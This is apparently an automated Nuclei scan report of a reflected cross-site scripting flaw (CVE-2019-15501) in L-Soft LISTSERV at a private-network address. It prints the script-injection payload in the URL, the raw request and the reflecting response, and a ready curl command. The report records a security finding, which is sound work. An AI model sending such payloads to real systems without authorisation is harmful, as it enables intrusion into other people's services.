 ### LSoft ListServ - XSS (CVE-2019-15501) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2019-15501**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/scripts/wa.exe?OK=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:08 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | LSoft ListServ - XSS |
| Authors | logicalhunter |
| Tags | cve, cve2019, xss, listserv |
| Severity | medium |
| Description | Reflected cross site scripting (XSS) in L-Soft LISTSERV before 16.5-2018a exists via the /scripts/wa.exe OK parameter. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2019-15501](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-15501) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /scripts/wa.exe?OK=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 208
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/scripts/wa.exe?OK=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/47302
- http://www.lsoft.com/manuals/16.5/listserv16.5-2018a_whatsnew.pdf
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-15501

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36' 'http://192.168.198.179:8080/scripts/wa.exe?OK=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)